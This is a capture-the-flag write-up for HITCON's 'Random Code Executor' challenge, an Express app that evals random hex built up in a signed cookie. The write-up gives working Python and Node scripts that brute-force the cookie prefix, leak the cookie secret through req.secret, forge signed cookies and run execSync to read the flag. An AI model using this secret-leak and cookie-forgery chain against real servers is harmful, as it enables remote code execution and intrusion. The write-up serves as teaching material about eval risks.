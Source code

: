 # Challenge

Hello, I am a Random Code Executor, I can execute r4Nd�M JavaScript code for you ><

Tips:
Have you ever heard of Infinite monkey theorem? If you click the "RCE!" button enough times you can get the flag 😉

rce-4bc5d3c73ac0fd8c0b098e9e7ac5a2e1c7a2fcf6.zip

Author: splitline

# Writeup

The challenge asks us to read the flag from file system. The core code part is:

```js
app.get('/random', function (req, res) {
    let result = null;
    if (req.signedCookies.code.length >= 40) {
        const code = Buffer.from(req.signedCookies.code, 'hex').toString();
        try {
            result = eval(code);
        } catch {
            result = '(execution error)';
        }
        res.cookie('code', '', { signed: true })
            .send({ progress: req.signedCookies.code.length, result: `Executing '${code}', result = ${result}` });
    } else {
        res.cookie('code', req.signedCookies.code + randomHex(), { signed: true })
            .send({ progress: req.signedCookies.code.length, result });
    }
});
```

It randomly appends one hex to the current code, and executes it if `length >= 40`. The cookie is signed so that we cannot fake one without the secret. Since we can control the cookies, we can use one cookie the generate multiple HTTP requests, and find the one we want. Prepare our code as hex, and compare the prefix of the code and the cookie in a loop. If a longer prefix is matched, we can proceed with the new cookie:

```python
s = requests.Session()
hostname = 'http://127.0.0.1:8000'
domain = '127.0.0.1'
r = s.get(f'{hostname}/')
print(r)

target = "some python code here"
target_hex = target.encode('utf-8').hex()

progress = 0
while progress < len(target_hex):
    current_cookie = s.cookies.get('code')
    current_hex = current_cookie[4:current_cookie.find('.')]

    r = s.get(f'{hostname}/random')
    print(r.text, s.cookies)
    if progress == 40:
	print(r.json())
        break
    new_cookie = s.cookies.get('code')
    new_hex = new_cookie[4:new_cookie.find('.')]
    if new_hex[progress] != target_hex[progress]:
        s.cookies.clear()
        s.cookies.set('code', current_cookie, domain=domain)
    else:
        progress += 1
```

However, we can only execute arbitrary Python code within 20 bytes(that is 40 bytes in hex). We did not find ways to read flag file within the limit, so we had to extract the cookie secret out and sign the code by ourselves.

Fortunately, the cookie secret can be access via `req.secret`. Thus, we can retrieve the cookie secret with the code above, and then sign our real code with the secret.

We wrote a script to sign the code with the secret:

```js
var cookie_parser = require('cookie-parser');
var cookie_signature = require('cookie-signature');
var code = process.argv[2];
var secret = process.argv[3];
var signed = 's:' + cookie_signature.sign(code, secret);
console.log(signed);
```

Then, we execute `req.secret` remotely to get the secret and capture the flag:

```python
target = "req.secret;;;;;;;;;;;;;;;;;;;"
# omitted
while progress < len(target_hex):
    # omitted
    if progress == 40:
        secret = r.json()['result']
        secret = secret.split(' ')[-1]
        break
    # omitted
print('secret', secret)

target2 = "require('child_process').execSync('cat /flag*')"
target2_hex = target2.encode('utf-8').hex()
signed = subprocess.check_output(["node", "sign.js", target2_hex, secret]).decode('utf-8').strip()
print(signed)
s.cookies.set('code', quote(signed), domain=domain)
print(s.cookies)
r = s.get(f'{hostname}/random')
print(r.text, s.cookies)
# => hitcon{random cat executionnnnnnn}
```

# Conclusion

`eval()` is evil. Cookie secret can be leaked via RCE.
